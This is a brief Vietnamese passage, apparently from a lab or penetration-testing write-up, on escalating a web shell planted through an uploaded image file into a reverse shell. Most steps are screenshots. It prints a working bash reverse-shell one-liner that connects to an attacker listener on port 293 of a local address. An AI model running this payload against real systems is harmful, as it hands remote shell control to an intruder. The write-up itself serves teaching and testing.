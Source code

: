 Mở đường dẫn chứa file ảnh 
![alt text](image-49.png)

Thực thi câu lệnh thành công 
![alt text](image-50.png)

Chuyển đổi web shell thành reverse shell
Trên máy tấn công lắng nghe cổng 293
![alt text](image-51.png)

Sử dụng payload để gửi kết nối về máy tấn công

```bash
bash -c 'bash -i >& /dev/tcp/192.168.5.128/293 0>&1'
```
